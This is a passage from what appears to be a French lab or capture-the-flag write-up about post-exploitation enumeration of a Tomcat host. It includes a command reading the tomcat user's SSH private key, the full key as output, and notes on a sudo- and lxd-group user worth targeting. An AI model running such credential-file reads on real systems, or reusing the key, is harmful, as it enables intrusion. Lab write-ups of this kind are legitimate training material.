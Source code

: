 ```python

        for j, column in enumerate(row.find_all("td")):
            if j == 3:
                print(column.text.strip())
```

Ça permet d'avoir par exemple des infos sur la machine :  

```plain
Linux b2r 4.10.0-35-generic #39-Ubuntu SMP Wed Sep 13 07:46:59 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

ou afficher plus proprement la clé privée SSH :  

```plain
$ cat /usr/share/tomcat8/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEAsz1zJbcdpjsIoSvCrXi5Al+5oAk47QF27wZWTKEsSkM4RYp8
+5cnYClmKb800MdSHjcYpQyne9jCM9F7JxO+MDmjLdZsQzPR/y7Sxb9isi9kffeP
4dShapo1f1T+QBktoF+XzI8XIhj3QWHEohA6J6jX5+OfVfZ3FjaZ7iNT/nv45rsF
L47KBM4rhyRavoSTW4vpyJCt9uXKx4zlqSpZ4u9pkgauZihTtit0I8Jvxg9pobbO
EFom1kv359o9MpOv13VEl1MBORrUz4/c/WjDLIP6Yj+XrKLGmKUhvdCk7hc33p9/
yfMD+m/XCw2ygQNywY/J/kdHtykYHCvWUVuC9wIDAQABAoIBAH0lRIZqyhrMUQQn
B7ATACn2KCbjCYoBYccWB59NUR0wvdNgFE+dg/KSNTCkvf2fjWhnU5+5rB6+gymm
83OfR0VomNRiSAjL361qReOn8wMyL9n7xcwJqAJEVWHoN/UNH1xAIj7DEYXPJKPT
3XTCG7ihHM5dkVx1z0QFL4ijxfuB6wSck7p560m1rri8WN9kKymBNC5KDFVHP2P7
+UU6OSjv728TWdMKoOhrT/XYLKusDEpqVOyEXvpYWGUj3l8Zv4tF5f6Fgmb9+Wto
ZJ+xwOYn9yO4VRXpACPV/GYYhq7BZLKReV89z8sJdZMCD19xmHvDsXpuLk3wceGb
T5EcIAECgYEA7CW8uErLewSsuZ9BVxQIbTKPPVxVqUSW+x7NojoOjsX/FIjdTVYt
ytnBW1Njv7ODcR7EicMe4giU/afcFfFeOHbRm+MwloGhgUG2lIXrHOhsZXDgo4aU
czLiEY5AqO+PyBx0xcQkxm7tSzBkB92buAcbzO+2vGcdF+BlP9gnqAECgYEAwk76
Bi655lOhhsWB3Bz9jNt6B22d4i5pJaRdTiWKsDrXd6wVq3U3hxwO1bpFLzp/7mes
ryp7Q2DnEKSEF4z7bH7rsEmjMHk8p9uU9gYEnIsBS/IUK82Jc9pdbfOgm3farUQp
yX5UhHU/VwbfrNhqKGut7lHkfk9fD2IukxeIavcCfxyYdUHbzMgYyNGxdzgUNPEE
LlQ/2h+lLqM6F6yNWzXuw/S4nhO/W8w0kjV845dTJZeNIj+MYTD92QzeRshhcgdk
W/2EhV20VNpSGsnhbZcSjg26nXkv0sogXz/A+hN67u5Mg9du6QUeaZ2xPmu1aiXe
tn8aiAZIdj1t7tTMWAECgYBAkmRON6r5muM72VjtYAj2jV1BKLFmH8w7gSKsvJcZ
N4SxNVPCNeLtGGrppcwmBMfM31EoqPJrksFW64UmGmjXRlpmrCH6EuAQXE1lcNyJ
dTxKE7mWUOiTwoZ36pV99NeL6vIEDuJhXmFdN2CPnR+yLQ6Q+0/2lcPeZd9abGCe
QwKBgQCvMdrd5fX7Oh6gVmwcYCXlleuuJLqM+wQwGca1up9io3hIHX9A26FhGvIp
hpaPRdP4pRyqi1xOY/eSl7UCEtbnv0oB79em+c6tvfaGcJIQL3ENCuD6/nUcPiap
lXn3A5a1JxppcCJNePhYIqBoCGKYWDq9Q3wBcQMIf+fcZjzGsg==
-----END RSA PRIVATE KEY-----
```

Malgré tout ça, rien de bien particulier à ce mettre sous la dents : pas de setuid inhabituels, pas de crontab faillibles, pas de permissions faibles, quand aux fichiers dans */etc/tomcat8/* on ne peut les consulter qu'en lecture !  

Il y a tout de même l'utilisateur *bill* qui sent bon la poudre :  

```plain
$ id bill
uid=1000(bill) gid=1000(bill) groups=1000(bill),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lxd),116(lpadmin),117(sambashare)
```
